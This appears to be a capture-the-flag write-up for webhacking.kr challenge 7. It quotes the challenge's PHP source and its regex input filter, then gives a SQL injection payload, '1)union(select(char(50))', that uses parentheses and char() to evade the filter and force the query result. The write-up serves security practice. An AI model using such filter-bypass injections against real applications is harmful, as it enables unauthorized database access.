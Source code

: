 Problem7
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-07/index.php?val=1>   
 
If you enter the URL, you can see a page like the below photo.     
    
<img src="./image/1.png"/> 
    
Then, if you click the button named auth, the page will show "Access Denied".    
    
Thus, let's go to the view-source link.    

<img src="./image/2.png"/>    
     
### Let's pay attention to the below the source code.   
    

```
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

We can know that if the value of $data[0] is 2, this problem is solved. 
    
```
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
```   

Let's go back to the front on the source code.    
The value of $go is stored by GET method, so we should input two(2) into <strong>"val"</strong> existing in the url. 
But, <strong>/2|-|\+|from|_|=|\\s|\*|\//i</strong> filter the input data that is (2, Operators, white space etc..). 
Thus, we can access to ASCII CODE, so the ascii value of 2 is 50.   

If you want to know about the <strong>Regular Expression</more>, refer to the bottom url.   
url: <https://developer.mozilla.org/ko/docs/Web/JavaScript/Guide/%EC%A0%95%EA%B7%9C%EC%8B%9D>     

```
select lv from chall7 where lv=($go)
```    
     
To put the value of 2 to $go in the query statment, we can enter the data like <strong>?val=1)union(select(char(50))</strong>.      
I used '(' or ')' because it is not filtered.   

```
select lv from chall7 where lv=(1)union(select(char(50)))
```
    
Through this, we can solve the problem number 7.    
The code produces the random value, so if you enter <strong>?val=1)union(select(char(50))</strong> a few times, it is solved.    

<img src="./image/3.png"/>     



    
